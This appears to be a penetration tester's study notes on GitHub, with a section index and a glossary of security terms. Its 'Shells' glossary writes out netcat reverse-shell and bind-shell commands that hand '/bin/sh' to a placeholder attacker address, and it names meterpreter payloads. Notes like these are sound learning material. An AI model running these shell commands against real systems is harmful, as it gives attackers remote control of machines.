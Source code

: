 # Useful tips

## Index

- [Glossary](#glossary)
- [Client-specific key areas of concern](#client-specific-key-areas-of-concern)
- [General notes](#general-notes)
- [PT initial foothold](#pt-initial-foothold)
- [SSH notes](#ssh-notes)
- [FTP notes](#ftp-notes)
- [Git commands / shell](#git-commands-shell)
- [Remote Desktop](#remote-desktop)
- [SQL connections](#sql-connections)
- [Reverse engineering](#reverse-engineering)
- [File upload](#file-upload)
- [Shells](#shells)
- [More stuff](#more-stuff)

## Glossary

- [Session hijacking](https://owasp.org/www-community/attacks/Session_hijacking_attack)
- [Session fixation](https://owasp.org/www-community/attacks/Session_fixation)
- [OSI Model](https://en.wikipedia.org/wiki/OSI_model)

**Some terminology**
- IPS: Intrusion Protection System
- IDS: Intrusion Detection System
- CIA triangle: Confidentiality, Integrity, Availability
- HIDS: Host Intrusion Detection System
- NIDS: Network Intrusion Detection System

**Shells**
- Shell: we open a shell on the client
- Reverse shell: we make the victim connect to us with a shell
  - Attacker: `nc -lvp 4444`
  - Victim: `nc <ip_attacker> 4444 -e /bin/sh`
- Bind shell: the victim has a listener running and the attacker connects to it in order to get a shell
  - Attacker: `nc <ip_victim> 4444`
  - Victim: `nc -lvp 4444 -e /bin/sh`

**Payloads**
- Staged: Sends payload in stages, can be less stable
  - example: `windows/meterpreter/reverse_tcp`
- Non-staged: Sends exploit all at once, larger in size and won't always work
  - example: `windows/meterpreter_reverse_tcp`

**Active directory**
There can be multiple domains. This is called a tree, a parent domain and other child domains. With many trees you start to have a forest. Inside are the Organization Unites, objects.
